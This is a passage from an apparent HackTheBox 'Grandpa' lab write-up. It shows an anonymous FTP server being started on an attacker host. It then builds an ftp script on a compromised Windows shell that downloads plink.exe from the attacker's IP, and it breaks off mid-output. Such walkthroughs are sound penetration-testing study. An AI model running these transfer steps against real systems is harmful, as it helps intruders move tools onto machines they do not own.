 ```
```

SMB port is open on this server as well, so we can do the same thing. But I want to try something different. I tried both powershell and certutil.exe on Granny. And those did not work, so they probably will not work here either. We still have ftp though. So let's try that.

Setting up a ftp server on our host:

```
kali@kali:~/htb/Grandpa$ sudo python -m pyftpdlib -p 21 -w
/usr/local/lib/python2.7/dist-packages/pyftpdlib-1.5.6-py2.7.egg/pyftpdlib/authorizers.py:244: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2021-01-23 06:39:35] concurrency model: async
[I 2021-01-23 06:39:35] masquerade (NAT) address: None
[I 2021-01-23 06:39:35] passive ports: None
[I 2021-01-23 06:39:35] >>> starting FTP server on 0.0.0.0:21, pid=29841 <<<
```
-m runs a library module as a script.

-p specifies the port

-w grants write access for logged in user.


We first navigate to temp, so we have writing permissions

```
c:\windows\system32\inetsrv>cd C:\Windows\temp
cd C:\Windows\temp
```

Then we create a ftp connection to our server and sent it to a text file called ftp.txt.

```
C:\WINDOWS\Temp>echo open 10.10.14.21 21  > ftp.txt
echo open 10.10.14.21 21  > ftp.txt
```
We send our user as anonymous

```
C:\WINDOWS\Temp>echo user anonymous >> ftp.txt
echo user anonymous >> ftp.txt
```
And no password

```
C:\WINDOWS\Temp>echo password >> ftp.txt
echo password >> ftp.txt
```
Binary means we set the transfer mode of ftp to binary files.

```
C:\WINDOWS\Temp>echo binary >> ftp.txt
echo binary >> ftp.txt
```
And then we get the binary file.
```
C:\WINDOWS\Temp>echo GET plink.exe >> ftp.txt
echo GET plink.exe >> ftp.txt
```
And terminate the connection
```
C:\WINDOWS\Temp>echo bye >> ftp.txt
echo bye >> ftp.txt
```
All in all:
```
C:\WINDOWS\Temp>type ftp.txt
type ftp.txt
open 10.10.14.21 21  
user anonymous 
```